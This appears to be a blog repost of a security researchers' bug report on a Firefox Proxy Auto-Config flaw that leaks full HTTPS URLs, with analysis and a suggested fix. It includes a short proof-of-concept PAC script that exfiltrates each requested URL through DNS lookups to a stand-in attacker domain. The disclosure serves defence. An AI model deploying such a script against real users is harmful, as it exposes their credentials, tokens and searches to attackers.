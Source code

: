 ```yaml
---
layout: post
title: Firefox - Proxy Auto-Config SSL/TLS Url Disclosure
category: bugreports
---
```


Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Firefox.

<!--more-->

*Original bug report can be viewed at [https://bugzilla.mozilla.org/show_bug.cgi?id=1255474](https://bugzilla.mozilla.org/show_bug.cgi?id=1255474)*

<pre class="bugreport">
Description:        Proxy Auto-Config SSL/TLS Url Disclosure
Versions Affected:  All
Category:           Information Disclosure
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Firefox. The PAC file specifies a Javascript function, FindProxyForURL(url, host), which is called for each URL request in order to determine the required proxy for the connection. This function receives the full URL and hostname for both HTTP and HTTPS requests, which can be leaked by a malicious PAC script. This could expose credentials, tokens, search terms or any other data passed in HTTPS URL query strings to internet based attackers that would otherwise be encrypted. This issue does not affect the default configuration of Firefox.

Analysis:
---------
The PAC file is executed in a limited, sandboxed Javascript environment, but some functions are still available (see http://findproxyforurl.com/pac-functions/), most notably dnsResolve. This allows for the full request URL from affected clients to be leaked to an attacker's DNS server or local network hosts via LLMNR.

Since PAC files must be specified manually (either in Firefox or in the system proxy settings), this issue would require a network-based attacker to be able to intercept network traffic of a client configured with a PAC file. For example, this could be performed by a malicious gateway.

All software that implements the PAC specification as written is affected by this issue. We have has confirmed this issue in a number of browsers and operating systems. Notably however, Internet Explorer does not leak full URLs, instead passing only the protocol and hostname to the 'url' parameter of FindProxyForURL (e.g. https://www.example.com/, not https://www.example.com/index.html?foo=bar). Therefore a possible fix for this issues is to follow this same behaviour.

Proof of Concept:
-----------------
A PAC script can be crafted, as below, which will perform a DNS lookup based on the host and url parameters passed into the function:

  function FindProxyForURL(url, host){{
    if (dnsResolve((url+'.example.com').replace(/[^a-z0-9_-]+/gi,'.')))
      return "DIRECT";
    return "DIRECT";
  }}

This will perform DNS lookups with the encoded URLs against the example.com DNS server.

See the following example DNS captures from HTTPS requests:

  https.incoming.telemetry.mozilla.org.submit.telemetry.0b2fe929-bff9-4421-9a77-9247930853db.main.Firefox.44.0.2.release.20160210153822.v.4.example.com.
  https.www.google.com.complete.search.client.firefox.q.secre.example.com.
  https.www.google.com.complete.search.client.firefox.q.secret.example.com.
</pre>
